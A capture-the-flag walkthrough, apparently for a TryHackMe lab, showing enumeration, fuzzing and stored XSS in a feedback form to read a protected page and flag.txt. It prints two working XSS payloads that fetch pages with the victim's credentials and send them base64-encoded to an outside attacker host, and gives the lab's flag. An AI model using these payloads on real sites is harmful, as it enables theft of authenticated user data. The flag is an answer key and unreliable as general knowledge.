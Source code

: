 ﻿# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 8080 |  http   |

We got two open ports, `ssh` and `http` on port `8080`, let's take a look at the website:

![Pasted image 20241202124915.png](../../IMAGES/Pasted%20image%2020241202124915.png)

Let's check source code:


![Pasted image 20241202124936.png](../../IMAGES/Pasted%20image%2020241202124936.png)

Nothing useful, let's try to fuzz in order to find anything useful:



## FUZZING
---

![Pasted image 20241202125736.png](../../IMAGES/Pasted%20image%2020241202125736.png)

Found a `/view_feedbacK` directory, it has status code `401` which means we are not authorized to read it, so, we need to be able to perform some sort of privilege escalation to be able to read it.

# RECONNAISSANCE
---
if we take a look at the feedback, we are able to see the following:

![Pasted image 20241202130251.png](../../IMAGES/Pasted%20image%2020241202130251.png)

seems like a simple feedback form, but I believe this is vulnerable to XSS, so, let's try to craft a payload to get the contents of the home page to check if it's either vulnerable or not.




# EXPLOITATION
---


As said, this will be our payload:

```js
<script>  
fetch("/", {method:'GET',mode:'no-cors',credentials:'same-origin'})  
.then(response => response.text())  
.then(text => {  
fetch('http://IP:80/' + btoa(text), {mode:'no-cors'});  
});  
</script>
```

```ad-note
#### Breakdown of the code:

- `fetch("/")`: Requests the home page's content.
- `btoa(text)`: Encodes the content in Base64 to safely transmit it.
- `fetch('http://your_ip:80')`: Sends the encoded data to your server.
```

Let's start a python server and check if it works:

![Pasted image 20241202130611.png](../../IMAGES/Pasted%20image%2020241202130611.png)

After sending the payload, we receive the contents of the page we have requested, in this case, home page, if we try decoding that, we get the following:


![Pasted image 20241202130742.png](../../IMAGES/Pasted%20image%2020241202130742.png)


As shown, we successfully exploited [XSS](../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/CROSS%20SITE%20SCRIPTING/CROSS%20SITE%20SCRIPTING%20(XSS).md)and got the contents of the home page, right now, we can take other exploitations paths, such as trying to get a reverse shell and some other, to make this CTF simple, let's just use a payload that retrieves the contents of `http://10.10.133.79:8080/flag.txt`, since this is the file we want to read anyway.


# READING THE FILE
---


```js
<script>  
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})  
.then(response => response.text())  
.then(text => {  
fetch('http://10.6.34.159:9001/' + btoa(text), {mode:'no-cors'});  
});  
</script>
```

This payload does the same as the previous one, it just targets that `flag.txt` file, let's send it and get our base64 encoded flag:

![Pasted image 20241202131136.png](../../IMAGES/Pasted%20image%2020241202131136.png)

Nice, let's decode:

![Pasted image 20241202131156.png](../../IMAGES/Pasted%20image%2020241202131156.png)

We got the flag and finished the CTF, Gg!

```ad-hint

Flag: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`
```


